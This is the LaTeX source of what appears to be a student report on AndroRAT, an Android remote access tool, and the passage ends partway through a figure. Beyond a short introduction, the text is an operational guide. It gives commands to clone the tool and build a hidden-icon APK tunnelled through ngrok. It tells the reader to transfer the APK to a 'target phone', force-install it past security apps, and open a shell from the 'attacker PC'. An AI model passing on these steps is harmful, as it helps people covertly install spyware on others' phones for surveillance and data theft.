\documentclass[12pt]{article}
\usepackage{helvet}
\renewcommand{\familydefault}{\sfdefault}
\usepackage{enumitem}
\usepackage{tikz}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{titlesec}
\usepackage{geometry}
\usepackage{lipsum}
\usepackage{clipboard}
\usepackage{setspace} 
\usepackage{graphicx}

\definecolor{sectioncolor}{RGB}{41, 128, 185}
\definecolor{textcolor}{RGB}{0, 0, 0}


\lstnewenvironment{pythoncode}[1][]
{
   \lstset{
       language=Python,
       basicstyle=\ttfamily,
       keywordstyle=\color{blue},
       commentstyle=\color{green!60!black},
       stringstyle=\color{red},
       numbers=left,
       numberstyle=\tiny,
       frame=single,
       breaklines=true,
       #1
   }
}
{}
% Define a custom command for shaded items
\newlist{shadeditemize}{itemize}{1}
\setlist[shadeditemize,1]{
    label=--,
    before=\begin{tikzpicture}[baseline=-0.5ex],
    after=\end{tikzpicture},
}

% Define a custom command for shaded items
\newcommand{\shadeditem}[1]{%
  \item \tikz[baseline=-0.5ex] \node[fill=gray!30, anchor=base, rounded corners=2pt] {#1};%
}

% Define a custom style for colorful shell code
\lstdefinestyle{shell}{
    language=bash,
    basicstyle=\ttfamily,
    keywordstyle=\color{blue},
    commentstyle=\color{green!60!black},
    stringstyle=\color{red},
    numbers=left,
    numberstyle=\tiny,
    frame=single,
    breaklines=true,
    tabsize=4,
    showstringspaces=false,
}

% Customize section titles and spacing
\titleformat{\section}{\bfseries\centering\Large\color{sectioncolor}}{\thesection}{1em}{}
\titlespacing*{\section}{0pt}{2em}{1em}
\titleformat{\subsection}{\bfseries\large}{\thesubsection}{1em}{}
\titlespacing*{\subsection}{0pt}{1.5em}{1em}

% Adjust page margins
\geometry{margin=1in}

% Hyperlinks
\usepackage{hyperref}
\hypersetup{
    colorlinks=true,
    linkcolor=sectioncolor,
    urlcolor=blue,
}

\title{
    \textbf{AndroRAT: An Android Remote Access Tool}}
\author{ 
    \textbf{Group Members:}\\
    1. Mahfuzzaman Sizan (1905054)\\
    2. Nur Uddin Ibne Huda (1905056)
}
\date{\today}

\begin{document}

\maketitle
\tableofcontents

\section{Introduction}
Mobile devices have become integral to modern life, offering convenience and connectivity. However, their widespread usage also attracts malicious actors seeking to exploit vulnerabilities for various purposes, including espionage, data theft, and surveillance. Among the arsenal of tools employed by attackers, AndroRAT stands out as a potent instrument for remote access and control of Android devices. Developed as a client-server application, AndroRAT allows remote manipulation of Android systems, posing significant security concerns.

\section{Installation}

\subsection{Cloning the Repository}
To get started with AndroRAT, follow these steps to clone the repository from GitHub:

\begin{lstlisting}[style=shell]
git clone https://github.com/karma9874/AndroRAT.git
\end{lstlisting}

\subsection{Installing Dependencies in Python}
After cloning the repository, navigate to the AndroRAT directory and install the required Python dependencies using pip:

\begin{lstlisting}[style=shell]
cd AndroRAT
pip install -r requirements.txt
\end{lstlisting}
\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.6\linewidth]{gitclone.png}
  \caption{Cloning the AndroRAT repository}
\end{figure}

\subsection{Available Modes}
AndroRAT offers various modes for different functionalities:

\begin{itemize}
    \item \textbf{Build Mode}: Used for building the Android APK.
    \item \textbf{Shell Mode}: Used for obtaining an interactive shell of the device.
\end{itemize}

\subsection{Connecting to Mobile and PC}
To install AndroRAT on the target Android device and connect it to your PC, follow these steps:

\begin{enumerate}
    \item \textbf{Install the APK}: Transfer the generated APK to the target phone and install it. If security apps prevent installation, force install it.
    
    \item \textbf{Open Interpreter from the Attacker PC}: Use the following command to open an interpreter in the attacker PC:
    \begin{lstlisting}[style=shell]
    python3 androRAT.py --shell [flags]
    \end{lstlisting}
    If the interpreter doesn't open in Android versions greater than 9, click on the APK file manually.
\end{enumerate}

\subsubsection{Build Mode Flags}
For the build mode, you can use the following flags:

\begin{itemize}
    \item \textbf{-p, --port}: Attacker port number (optional; default is set to 8000).
    \item \textbf{-o, --output}: Name for the APK file (optional; default is set to "karma.apk").
    \item \textbf{-icon, --icon}: Visible icon after installing APK (optional; by default set to hidden).
\end{itemize}

\textbf{Example Usage for Build Mode}:
\begin{lstlisting}[style=shell]
python3 androRAT.py --build --ngrok -o evil.apk
\end{lstlisting}
\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.6\linewidth]{buildAPK.png}
  \caption{Building the AndroRAT APK}
\end{figure}
\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.6\linewidth]{apkInFile.png}
  \caption{APK file generated}
\end{figure}
\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.6\linewidth]{apkTransfered.png}
  \caption{Transferring APK to target device}
\end{figure}
\begin{figure}[h!]
  \centering
